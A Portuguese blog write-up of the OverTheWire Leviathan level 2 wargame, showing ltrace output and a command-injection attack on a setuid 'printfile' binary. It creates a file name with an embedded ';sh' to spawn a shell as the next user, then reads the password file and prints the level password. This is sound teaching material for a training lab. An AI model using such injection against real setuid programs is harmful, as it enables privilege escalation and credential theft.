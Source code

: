 ```yaml
---
layout: default
title: Level 2 - Command Injection [OverTheWire CTF – Leviathan] write-up
date: 2016-11-06 18:44
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/11/02/level-1-overthewire-ctf-leviathan-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/11/02/level-1-overthewire-ctf-leviathan-write-up/" target="_blank" rel="noopener">Level 1</a></li>
</ul>

E agora é hora do Level 2.

<blockquote>
Obs: como já explico umas merdas básicas nos write-ups dos levels anteriores, vou evitar ficar repetindo para que serve um ltrace e só explicar o que for surgindo de novo.
</blockquote>

Logado no ssh como leviathan2, encontrei o arquivo <strong>printfile</strong> na minha home. Era o alvo da vez.

```leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename```

O executável faz juz ao nome e, pelo que é descrito, deve imprimir um arquivo na tela. Como em todos os nívels, o arquivo roda com permissões do user acima do meu, ou seja, leviathan3, então é óbvio que tentei fazer com ele lesse o arquivo que continha o password do próximo nível, pois leviathan3 pode, eu não.

```leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...```

Why not? :( Essa porra tava aparentando ser simples demais.

```leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd664, 0x8048600 unfinished ...
access(/etc/leviathan_pass/leviathan3, 4) = -1
puts(You cant have that file...You cant have that file...
) = 27
+++ exited (status 1) +++```

A função access retorna -1 quando tento ler o pass de leviathan3, com certeza isso não significa coisa boa para o meu lado. Não conhecia a função <strong>access </strong>e o máximo que encontrei foi a <a href="https://linux.die.net/man/2/access" target="_blank" rel="noopener">man page</a>. Mas foi suficiente, a descrição do que ela fazia era simples e direta: checar as permissões reais do usuário que tenta acessar um arquivo.

Logo, o printfile ser executado com permissões de leviathan3 não me permite ler arquivos que pertecem ao mesmo porque a função acess sempre vai detectar que sou leviathan2 e me falar que não posso ter determinado arquivo.

Certo, será preciso enganar esse programa de alguma forma. Primeira coisa que fiz, foi criar um arquivo (no único lugar que o ctf nos dá permissão de escrita, em <strong>/tmp</strong>) e observar o comportamento de printfile quando passo como argumento algo que tenho permissões de acesso.

```leviathan2@melinda:~$ ltrace ./printfile /tmp/0211/fuck
__libc_start_main(0x804852d, 2, 0xffffd674, 0x8048600 unfinished ...
access(/tmp/0211/fuck, 4) = 0
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++```

A função access fica satisfeita e a string que é passada como argumento ganha um trato da função <a href="http://www.br-c.org/doku.php?id=snprintf">snprintf</a>. Então a string que vai para <a href="https://www.vivaolinux.com.br/dica/Usando-funcoes-do-sistema-em-C-com-system">system</a> fica sendo <em>/bin/cat nosso/argumento</em>. (Siga os links para entender sobre o que as funções fazem)

Nessa altura eu perdi algum tempo achando que a falha poderia estar na função access. Depois de algumas tentativas frustradas de tentar explora-la de alguma forma, decidi que ela não era o caminho.

Foi aí que prestei a atenção em <strong>snprintf</strong> e <strong>system</strong>.

```snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck```

Descrevendo de forma rústica: o programa, cegamente, pega o argumento, põe após <em>/bin/cat</em> e manda system executar. Vi então uma oportunidade para injetar comandos, afinal, system apenas executará a string e, se o programa não fizer uma validação em busca de um ponto e vírgula, por exemplo, teremos a capacidade de executar outro comando após o <em>/bin/cat</em>.

Decidi testar minha teoria criando um arquivo com o nome <strong>--help</strong>. Como não é uma prática nada comum criar arquivos com caracteres especiais (tipo ; e -), tive a ajuda disso <a href="http://www.tecmint.com/manage-linux-filenames-with-special-characters/">aqui</a> para lembrar de como cria-los.

```leviathan2@melinda:/tmp/0211$ touch -- --help

leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile --help
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(--help, 4) = 0
snprintf(/bin/cat --help, 511, /bin/cat %s, --help) = 15
system(/bin/cat --helpUsage: /bin/cat [OPTION]... [FILE]...
Concatenate FILE(s), or standard input, to standard output.

-A, --show-all equivalent to -vET
-b, --number-non... cortei os bla bla da mensagem de help do cat
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++```

<a href="https://www.owasp.org/index.php/Command_Injection">Command injection</a> verificado com sucesso. É possível executar o que se quiser e tudo com privilégios de leviathan3. E o que mais se quer? SHEEEELLLLLL.

```leviathan2@melinda:/tmp/0211$ touch ';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile ;sh
*** File Printer ***
Usage: ../../home/leviathan2/printfile filename
$ whoami
leviathan2
$```

Algo saiu errado... Mas é claro que saiu! Por não pôr o ;sh entre aspas simples, ao invés de passar como argumento, acabei executando o comando <em>sh</em> após a execução de printfile.

Hora de tentar novamente (dessa vez com o ltrace para ver se tudo corria bem):

```leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile ';sh'
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(;sh, 4) = 0
snprintf(/bin/cat ;sh, 511, /bin/cat %s, ;sh) = 12
system(/bin/cat ;sh

bash
bash```

Ainda nada. Mas não foi dificil para perceber que ;sh agora estava virando argumento de cat e as coisas não saiam como esperado. Então criei um novo arquivo chamado <strong>fuck';sh'. </strong>Assim, cat iria ler o arquivo fuck e em seguida system iria executar sh.

```leviathan2@melinda:/tmp/0211$ touch fuck';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck fuck;sh leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile fuck';sh'
fuck
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
cXVlcmZsYWc/```

Esse foi divertido.
